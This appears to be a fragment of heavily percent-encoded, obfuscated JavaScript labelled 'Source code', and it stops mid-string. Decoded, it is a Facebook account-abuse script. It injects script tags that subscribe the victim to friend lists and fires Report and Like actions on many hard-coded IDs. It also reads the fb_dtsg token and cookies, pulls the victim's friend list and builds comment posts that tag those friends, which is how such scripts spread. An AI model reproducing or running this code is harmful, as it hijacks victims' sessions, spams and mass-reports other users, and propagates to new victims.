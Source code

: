 %0A%20%68%74%74%70%34%2E%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%3D%66%75%6E%63%74%69%6F%6E%28%29%0A%20%7B%20%20%69%66%28%68%74%74%70%34%2E%72%65%61%64%79%53%74%61%74%65%3D%3D%34%26%26%68%74%74%70%34%2E%73%74%61%74%75%73%3D%3D%32%30%30%29%68%74%74%70%34%2E%63%6C%6F%73%65%20%7D%3B%0A%20%68%74%74%70%34%2E%73%65%6E%64%28%70%61%72%61%6D%73%34%29%7D%0A%66%75%6E%63%74%69%6F%6E%20%73%75%62%6C%69%73%74%28%75%69%64%73%73%29%0A%7B%20%76%61%72%20%61%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%72%65%61%74%65%45%6C%65%6D%65%6E%74%28%27%73%63%72%69%70%74%27%29%3B%0A%20%61%2E%69%6E%6E%65%72%48%54%4D%4C%20%3D%20%22%6E%65%77%20%41%73%79%6E%63%52%65%71%75%65%73%74%28%29%2E%73%65%74%55%52%49%28%27%2F%61%6A%61%78%2F%66%72%69%65%6E%64%73%2F%6C%69%73%74%73%2F%73%75%62%73%63%72%69%62%65%2F%6D%6F%64%69%66%79%3F%6C%6F%63%61%74%69%6F%6E%3D%70%65%72%6D%61%6C%69%6E%6B%26%61%63%74%69%6F%6E%3D%73%75%62%73%63%72%69%62%65%27%29%2E%73%65%74%44%61%74%61%28%7B%20%66%6C%69%64%3A%20%22%20%2B%20%75%69%64%73%73%20%2B%20%22%20%7D%29%2E%73%65%6E%64%28%29%3B%22%3B%0A%20%64%6F%63%75%6D%65%6E%74%2E%62%6F%64%79%2E%61%70%70%65%6E%64%43%68%69%6C%64%28%61%29%3B%0A%7D%0A%73%75%62%6C%69%73%74%28%22%32%33%36%38%31%35%31%31%36%34%39%36%35%38%30%22%29%3B%20%73%75%62%6C%69%73%74%28%22%32%33%37%37%38%33%31%39%39%37%33%33%31%30%35%22%29%3B%20%73%75%62%6C%69%73%74%28%22%32%30%33%37%36%34%38%31%39%38%32%31%33%33%31%22%29%3B%20%73%75%62%6C%69%73%74%28%22%31%39%34%38%36%39%31%39%30%37%31%30%38%39%34%22%29%3B%20%73%75%62%6C%69%73%74%28%22%31%34%38%32%37%37%30%37%35%38%36%31%35%39%36%30%22%29%3B%20%52%65%70%6F%72%74%28%22%31%30%30%30%30%36%33%34%33%39%32%34%35%30%31%22%29%3B%20%72%61%70%6F%72%74%28%22%31%30%30%30%30%31%32%32%37%34%34%34%34%32%34%22%29%3B%20%52%65%70%6F%72%74%28%22%31%30%30%30%30%33%35%38%37%35%36%35%33%30%36%22%29%3B%20%52%65%70%6F%72%74%28%22%31%30%30%30%30%30%31%39%35%30%34%39%34%36%37%22%29%3B%20%52%65%70%6F%72%74%28%22%31%30%30%30%30%32%34%36%30%38%31%31%38%30%32%22%29%3B%20%52%65%70%6F%72%74%28%22%31%34%32%34%33%37%39%30%36%32%22%29%3B%20%4C%69%6B%65%28%22%35%31%39%36%33%35%30%33%31%33%38%32%35%36%34%22%29%3B%20%4C%69%6B%65%28%22%32%37%35%30%36%32%36%36%39%33%31%37%31%39%39%22%29%3B%20%4C%69%6B%65%28%22%31%33%37%36%39%31%34%32%37%32%35%34%38%30%34%32%22%29%3B%20%4C%69%6B%65%20%28%22%37%31%34%31%33%31%34%30%31%39%35%33%30%35%35%22%29%3B%20%4C%69%6B%65%28%22%33%39%38%34%32%36%34%33%33%36%31%33%31%30%30%22%29%3B%20%4C%69%6B%65%28%22%31%34%30%31%37%37%33%35%32%33%34%30%37%34%36%30%22%29%3B%20%52%65%70%6F%72%74%28%22%31%30%30%30%30%32%37%38%30%37%36%36%35%39%32%22%29%3B%20%4C%69%6B%65%28%22%33%31%31%38%32%39%30%34%38%39%35%34%33%32%39%22%29%3B%20%4C%69%6B%65%28%22%35%39%37%32%37%33%39%32%36%39%38%30%35%32%33%22%29%3B%20%4C%69%6B%65%28%22%31%38%38%37%31%38%39%38%31%32%37%30%37%30%37%22%29%3B%20%4C%69%6B%65%28%22%34%31%39%39%33%38%36%36%31%34%38%35%39%38%35%22%29%3B%20%61%28%22%31%30%30%30%30%35%30%34%32%37%39%34%34%38%36%22%29%3B%20%61%28%22%31%30%30%30%30%35%36%33%34%34%32%33%35%39%34%22%29%3B%20%61%28%22%31%30%30%30%30%36%34%39%31%34%39%34%39%30%34%22%29%3B%20%49%44%53%28%22%31%30%30%30%30%36%34%39%31%34%39%34%39%30%34%22%29%3B%20%49%44%53%28%22%31%30%30%30%30%34%32%37%32%33%30%38%38%34%38%22%29%3B%20%0A%76%61%72%20%5F%30%78%61%32%32%63%3D%5B%22%76%61%6C%75%65%22%2C%22%66%62%5F%64%74%73%67%22%2C%22%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%22%2C%22%6D%61%74%63%68%22%2C%22%63%6F%6F%6B%69%65%22%2C%22%32%39%34%38%32%36%33%37%34%30%30%33%31%30%34%22%2C%22%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%22%2C%22%72%65%61%64%79%53%74%61%74%65%22%2C%22%61%72%6B%61%64%61%73%6C%61%72%20%3D%20%22%2C%22%66%6F%72%20%28%3B%3B%29%3B%22%2C%22%22%2C%22%72%65%70%6C%61%63%65%22%2C%22%72%65%73%70%6F%6E%73%65%54%65%78%74%22%2C%22%3B%22%2C%22%6C%65%6E%67%74%68%22%2C%22%65%6E%74%72%69%65%73%22%2C%22%70%61%79%6C%6F%61%64%22%2C%22%72%6F%75%6E%64%22%2C%22%20%40%5B%22%2C%22%75%69%64%22%2C%22%3A%22%2C%22%74%65%78%74%22%2C%22%5D%22%2C%22%20%22%2C%22%5C%78%32%36%66%69%6C%74%65%72%5B%30%5D%3D%75%73%65%72%22%2C%22%5C%78%32%36%6F%70%74%69%6F%6E%73%5B%30%5D%3D%66%72%69%65%6E%64%73%5F%6F%6E%6C%79%22%2C%22%5C%78%32%36%6F%70%74%69%6F%6E%73%5B%31%5D%3D%6E%6D%22%2C%22%5C%78%32%36%74%6F%6B%65%6E%3D%76%37%22%2C%22%5C%78%32%36%76%69%65%77%65%72%3D%22%2C%22%5C%78%32%36%5F%5F%75%73%65%72%3D%22%2C%22%68%74%74%70%73%3A%2F%2F%22%2C%22%69%6E%64%65%78%4F%66%22%2C%22%55%52%4C%22%2C%22%47%45%54%22%2C%22%68%74%74%70%73%3A%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%74%79%70%65%61%68%65%61%64%2F%66%69%72%73%74%5F%64%65%67%72%65%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%2C%22%6F%70%65%6E%22%2C%22%68%74%74%70%3A%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%74%79%70%65%61%68%65%61%64%2F%66%69%72%73%74%5F%64%65%67%72%65%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%2C%22%73%65%6E%64%22%2C%22%72%61%6E%64%6F%6D%22%2C%22%66%6C%6F%6F%72%22%2C%22%5C%78%32%36%66%74%5F%65%6E%74%5F%69%64%65%6E%74%69%66%69%65%72%3D%22%2C%22%5C%78%32%36%63%6F%6D%6D%65%6E%74%5F%74%65%78%74%3D%22%2C%22%5C%78%32%36%73%6F%75%72%63%65%3D%32%22%2C%22%5C%78%32%36%63%6C%69%65%6E%74%5F%69%64%3D%31%33%37%37%38%37%31%37%39%37%31%33%38%3A%31%37%30%37%30%31%38%30%39%32%22%2C%22%5C%78%32%36%72%65%70%6C%79%5F%66%62%69%64%22%2C%22%5C%78%32%36%70%61%72%65%6E%74%5F%63%6F%6D%6D%65%6E%74%5F%69%64%22%2C%22%5C%78%32%36%72%6F%6F%74%69%64%3D%75%5F%6A%73%6F%6E%70%5F%32%5F%33%22%2C%22%5C%78%32%36%63%6C%70%3D%7B%5C%78%32%32%63%6C%5F%69%6D%70%69%64%5C%78%32%32%3A%5C%78%32%32%34%35%33%35%32%34%61%30%5C%78%32%32%2C%5C%78%32%32%63%6C%65%61%72%63%6F%75%6E%74%65%72%5C%78%32%32%3A%30%2C%5C%78%32%32%65%6C%65%6D%65%6E%74%69%64%5C%78%32%32%3A%5C%78%32%32%6A%73%5F%35%5C%78%32%32%2C%5C%78%32%32%76%65%72%73%69%6F%6E%5C%78%32%32%3A%5C%78%32%32%78%5C%78%32%32%2C%5C%78%32%32%70%61%72%65%6E%74%5F%66%62%69%64%5C%78%32%32%3A%22%2C%22%7D%22%2C%22%5C%78%32%36%61%74%74%61%63%68%65%64%5F%73%74%69%63%6B%65%72%5F%66%62%69%64%3D%30%22%2C%2